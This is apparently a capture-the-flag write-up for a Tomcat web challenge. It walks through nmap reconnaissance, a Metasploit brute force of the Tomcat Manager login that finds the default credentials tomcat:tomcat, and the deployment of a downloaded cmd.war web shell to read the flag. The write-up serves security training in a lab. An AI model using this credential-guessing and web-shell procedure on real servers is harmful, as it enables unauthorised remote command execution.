 # Meow

## Web: 90 Points

## Challenge
We're using Tomcat to manage our challenges.laptophackingcoffee.org server. Is that bad?

(Note: The server resets to default every 30 minutes. All progress will be lost.)

## Solution

Scan the given URL with Nmap:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -Pn
...
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d4:ce:7d:2e:95:fd:ee:35:8e:18:1e:0b:05:b4:57:ff (RSA)
|   256 e8:90:b0:4c:70:3a:42:18:dd:46:f7:a4:f5:8d:60:31 (ECDSA)
|_  256 18:a4:49:d9:29:26:25:7d:aa:93:e1:af:17:0f:d3:66 (ED25519)
3389/tcp closed ms-wbt-server
4242/tcp open   http          Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Coding A CSS3 &amp; HTML5 One Page Template | Tutorialzine demo
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
8086/tcp closed d-s-n
8090/tcp closed opsmessaging
8888/tcp open   http          nginx 1.17.0
|_http-server-header: nginx/1.17.0
|_http-title: Steve's Super Secure Storage Page
9999/tcp closed abyss                                
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Note that port 8080 is hosting the Tomcat server mentioned in the challenge:
```
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
```

Scan just port 8080:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -p 8080 -Pn                              
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
...
```

Open the URL with port 8080 in the browser:

http://challenges.laptophackingcoffee.org:8080/

This page is the default Apache Tomcat homepage: 

![screenshot1.png](screenshot1.png)

Browse around. Click the **Manager App** button. Notice that the Manager App requires a username and password. Could this be a potential entry point?

![screenshot2.png](screenshot2.png)

Start up metasploit and search for *Tomcat*:
```
$ msfconsole
...
msf5 > search tomcat

Matching Modules
================

   #   Name                                                         Disclosure Date  Rank       Check  Description
   -   ----                                                         ---------------  ----       -----  -----------
   1   auxiliary/admin/http/tomcat_administration                                    normal     No     Tomcat Administration Tool Default Access
   2   auxiliary/admin/http/tomcat_utf8_traversal                   2009-01-09       normal     No     Tomcat UTF-8 Directory Traversal Vulnerability
   3   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     No     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   4   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   5   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   6   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     No     Hashtable Collisions
   7   auxiliary/scanner/http/tomcat_enum                                            normal     No     Apache Tomcat User Enumeration
   8   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
...
```

Out of the search results, the `auxiliary/scanner/http/tomcat_mgr_login` (#8) looks like the most relevant exploit. Select the exploit (`use 8`). Use the `info` and `show options` commands to view more details about the exploit. 

```
msf5 > use 8
msf5 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            challenges.laptophackingcoffee.org                                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8080                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host
```

Note that the `RPORT` is already set to 8080. Set the `RHOSTS` option to the LHC website and run the exploit:
```
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS challenges.laptophackingcoffee.org
RHOSTS => challenges.laptophackingcoffee.org
msf5 auxiliary(scanner/http/tomcat_mgr_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
...
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The exploit succeeded! Login successful:
```
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
```

Visit the Tomcat page and login with these credentials. 
```
user:     tomcat
password: tomcat
```

Access granted: 
![screenshot3.png](screenshot3.png)

The page has a very alluring **Deploy** section. It allows users to **Select WAR file to upload** and then click the **Deploy** button. Further [research][1] confirms that this capability is dangerous. One of the [ways][3] to exploit this is through a web shell. Download the [cmd.war](cmd.war) file from this [github repo][4]. Upload and deploy it to the manager page.

There will be a path called `/cmd`. 

http://challenges.laptophackingcoffee.org:8080/cmd/cmd.jsp

```
LHC{T0Mc@t_D3F@ult}

```


## Resources
* [HackTheBox Writeup - Jerry][1]
* [GitHub: Apache Tomcat Default Credentials][2]
* [Multiple Ways to Exploit Tomcat Manager][3]
* [GitHub: Web Shells][4]

[1]:https://medium.com/@hussaini.faisal/hackthebox-writeup-jerry-aa2b992917a7
[2]:https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
[3]:https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
[4]:https://github.com/jbarcia/Web-Shells/blob/master/laudanum/jsp/cmd.war